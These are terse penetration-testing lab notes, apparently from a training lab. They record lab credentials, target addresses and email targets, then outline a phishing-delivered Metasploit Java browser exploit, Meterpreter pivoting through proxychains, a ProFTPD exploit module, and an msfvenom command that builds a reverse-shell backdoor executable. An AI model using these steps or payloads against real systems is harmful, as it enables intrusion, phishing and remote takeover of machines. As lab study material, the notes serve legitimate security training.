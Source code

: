 ```
    Username: netadmin
    Password: netpwd
```




## Lab Client Side

myip: 192.168.70.45/24

scope: 
	10.10.50.0/23
	10.10.51.0

```

    user@foocompany.com
    adam@foocompany.com
    mary@foocompany.com
```

We should send an email to user, and exploit via multi/browser/java_jre17_exec.
because we do not have direct access to the 10.10 network.

Tried to do with thunderbird, no success.
I will try with Icedove later.

Then we should 
meterpreter session:

```
	run autoroute -s 10.10.51.0/24
	background
auxiliary/server/socks4a

```

- set options
	remember, it is the same port as the file: /etc/proxychains.conf

> now we can nmap to target, because proxychains is redirecting through the first shell machine to the meterpreter session.

search ProFTPD 1.3.2a
```
	exploit/freebsd/ftp/proftp_telnet_iac
	we should have access to the server
```

```
ip addr
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.15.4 LPORT=4444 -f exe > backdoor.exe
file backdoor.exe
```


msfconsole -q
